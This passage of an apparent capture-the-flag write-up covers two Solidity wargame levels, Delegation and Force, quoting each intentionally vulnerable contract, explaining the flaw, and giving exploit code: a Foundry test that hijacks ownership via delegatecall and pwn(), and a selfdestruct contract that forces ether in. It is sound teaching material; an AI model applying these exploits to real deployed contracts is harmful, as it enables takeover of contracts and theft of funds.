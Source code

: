 

---

## Level 6:Delegation

### 🔍 Vulnerable Function

```solidity
fallback() external {
    (bool result, ) = address(delegate).delegatecall(msg.data);
    if (result) {
        this;
    }
}
```

**Vulnerability**: The Delegation contract uses delegatecall to execute code from the Delegate contract within the context of its own storage. This means an attacker can call a function like pwn() on Delegation, which executes pwn() in Delegate and updates the owner of Delegation, not Delegate.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker);
    (bool success, ) = address(delegation).call(
        abi.encodeWithSignature("pwn()")
    );
    require(success, "Call failed");
    assertEq(delegation.owner(), attacker, "Attacker is not the owner");
    vm.stopPrank();
}

```
---

## Level 7:Force

### 🔍 Vulnerable Function

```solidity
// Force contract has no receive/fallback or payable function
contract Force {
   
}
```

**Vulnerability**: Ether can still be forcibly sent using selfdestruct.

### 🛠️  Exploit Contract (ForceDestruct)
```solidity
 contract ForceDestruct {
    function attack(address payable _contract) public payable {
        selfdestruct(_contract);
    }
}

```

